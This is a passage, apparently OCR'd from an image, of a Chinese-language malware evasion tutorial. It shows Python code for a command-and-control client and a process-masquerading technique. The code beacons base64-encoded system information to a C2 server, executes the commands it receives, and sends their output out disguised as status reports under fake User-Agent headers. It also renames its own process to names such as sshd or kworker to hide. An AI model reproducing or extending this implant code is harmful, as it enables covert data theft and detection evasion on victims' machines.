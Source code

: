 ```python
            'system_info': base64.b64encode(json.dumps(system_info).encode()).decode()
        }
        
        try:
            response = self.session.post(
                f"{self.c2_server}/api/v1/update",
                json=data,
                headers={'User-Agent': 'SystemUpdater/1.0'},
                timeout=30
            )
            
            if response.status_code == 200:
                return response.json().get('command')
        except:
            pass
        
        return None
    
    def execute_and_exfiltrate(self, command, output):
        """执行命令并外传数据"""
        exfil_data = {
            'api_key': 'legitimate_key',
            'action': 'report_status',
            'status': base64.b64encode(output.encode()).decode()
        }
        
        self.session.post(
            f"{self.c2_server}/api/v1/status",
            json=exfil_data,
            headers={'User-Agent': 'SystemReporter/1.0'}
        )
```

---

## 五、进程与行为免杀

### 1. 进程伪装技术

```python
class ProcessMasquerading:
    """进程伪装"""
    
    @staticmethod
    def masquerade_as_legitimate_process():
        """伪装成合法进程"""
        legitimate_names = [
            'systemd',
            'kworker',
            'sshd',
            'nginx',
            'apache2',
            'crond'
        ]
        
        try:
            import ctypes
            libc = ctypes.CDLL(None)
            
            # 修改进程名 (Linux)
            new_name = random.choice(legitimate_names)
            libc.prctl(15, new_name.encode(), 0, 0, 0)  # PR_SET_NAME
            
```